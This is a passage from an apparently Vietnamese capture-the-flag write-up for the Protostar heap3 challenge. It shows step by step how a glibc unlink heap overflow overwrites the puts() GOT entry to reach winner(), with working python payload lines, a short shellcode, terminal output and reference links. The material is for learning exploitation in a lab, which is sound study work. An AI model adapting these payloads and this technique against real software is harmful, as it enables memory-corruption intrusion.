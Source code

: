 Thử chạy payload

```
./heap3 `python -c 'print "AAAA"'` `python -c 'print "A" * 32 + "\xfc\xff\xff\xff" + "\xfc\xff\xff\xff" + "A" * 4 + "\x1c\xb1\x04\x08\x64\x88\x04\x08"'` D
```

Chúng ta nhận được lỗi `Segmentation fault`. Điều này xảy ra là do ta quên mất rằng `unlink` sẽ ghi đè hai lần, lần thứ hai là ghi `0x804b11c` vào `0x8048864` + 8 - Đây là phân vùng không cho phép ghi.

Chúng ta cần thay đổi đầu vào của mình sao cho khi ghi đến `P->bk + 8` là một nơi nào đó trong không gian địa chỉ bộ nhớ có thể ghi. Những gì chúng ta có thể làm là ghi đè `puts()` GOT bằng một vị trí trên heap có chứa một số shellcode có khả năng chuyển đến `winner()`.

```
push dword 0x8048864
ret
```

Chúng tôi biên dịch `shellcode` trên ra mã máy `\x68\x64\x88\x04\x08\xc3`, nó có 6 bytes nên khi `unlink()` ghi đến `P->bk + 8` sẽ không bị ghi đè shellcode và ghi nó vào phân bổ của `chunk` a - nơi cho phép ghi.

Giờ ta chạy thử:

```
root@protostar:/opt/protostar/bin# ./heap3 `python -c 'print "\x68\x64\x88\x04\x08\xc3"'` `python -c 'print "A" * 32 + "\xfc\xff\xff\xff" + "\xfc\xff\xff\xff" + "A" * 4 + "\x1c\xb1\x04\x08\x08\xc0\x04\x08"'` D
Illegal instruction
```

`Shellcode` bị ghi đè, ta nhớ lại 4 byte dữ liệu ban đầu cho mỗi `chunk` sẽ bị ghi đè khi `chunk` được giải phóng. Ở đây là `free(a)` đã ghi đè 4 byte đó nên ta sẽ thêm `AAAA` trước `shellcode` và cộng địa chỉ ghi lên 4.

Khai thác cuối cùng.

```
root@protostar:/opt/protostar/bin# ./heap3 `python -c 'print "AAAA\x68\x64\x88\x04\x08\xc3"'` `python -c 'print "A" * 32 + "\xfc\xff\xff\xff" + "\xfc\xff\xff\xff" + "A" * 4 + "\x1c\xb1\x04\x08\x0c\xc0\x04\x08"'` D
that wasn't too bad now, was it? @ 1649095327
```

```
Khai thác heap thực sự rất phức tạp và khó.
```

## Documents

<https://www.blackhat.com/presentations/bh-usa-07/Ferguson/Whitepaper/bh-usa-07-ferguson-WP.pdf>

<https://sourceware.org/glibc/wiki/MallocInternals>


<http://phrack.org/issues/57/8.html>

<https://sploitfun.wordpress.com/2015/02/10/understanding-glibc-malloc/>

<https://www.ayrx.me/protostar-walkthrough-heap/#heap-3>
